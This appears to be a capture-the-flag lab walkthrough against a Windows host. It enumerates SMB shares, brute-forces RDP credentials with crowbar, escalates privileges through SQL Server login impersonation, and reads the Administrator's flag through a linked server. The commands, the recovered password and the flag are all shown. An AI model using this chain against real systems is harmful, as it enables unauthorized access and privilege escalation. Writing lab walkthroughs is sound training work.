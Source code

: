 # Attacking Common Services - Hard

The third server is another internal server used to manage files and working material, such as forms. In addition, a database is used on the server, the purpose of which we do not know.

## Walkthrough

```bash
sudo nmap -sS -n -Pn -p- --min-rate 5000 10.129.203.10 -oN nmap.txt
PORT     STATE SERVICE
135/tcp  open  msrpc
445/tcp  open  microsoft-ds
1433/tcp open  ms-sql-s
3389/tcp open  ms-wbt-server
```

lets check smb share

<pre class="language-bash"><code class="lang-bash">smbclient -L //10.129.203.10 -N
Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        Home            Disk      
        IPC$            IPC       Remote IPC
# Download the folder and its contents recursively
recurse ON
<strong>prompt OFF
</strong>mget *
exit
</code></pre>

lets look around now

```bash
#in IT folder there is creds and notes
random.txt
#lets brute force rdp
crowbar -b rdp -s 10.129.203.10/32 -u fiona -C ../IT/Fiona/creds.txt 
2024-02-23 04:17:58 RDP-SUCCESS : 10.129.203.10:3389 - fiona:48Ns72!bns74@S84NNNSl
```

Once logged in, what other user can we compromise to gain admin privileges?

```sql
xfreerdp /v:10.129.203.10 /u:fiona /p:'48Ns72!bns74@S84NNNSl' /cert-ignore /dynamic-resolution
#IN CMD
sqlcmd
select name from master.dbo.sysdatabases
go
use master
go
#now to impersonate as another user
select distinct b.name
from sys.server_permissions a
inner join sys.server_principals b
on a.grantor_principal_id = b.principal_id
where a.permission_name = 'IMPERSONATE'
go
execute as login = 'john'
select system_user
select is_srvrolemember('sysadmin')
go
```

Submit the contents of the flag.txt file on the Administrator Desktop.

```sql
select srvname, isremote from sysservers
go
EXECUTE('select @@servername, @@version, system_user, is_srvrolemember(''sysadmin'')') AT [LOCAL.TEST.LINKED.SRV]
go
EXECUTE('SELECT * FROM OPENROWSET(BULK ''C:/Users/Administrator/Desktop/flag.txt'', SINGLE_CLOB) AS Contents') AT [LOCAL.TEST.LINKED.SRV]
go
HTB{46u$!n9_l!nk3d_$3rv3r$} 
```
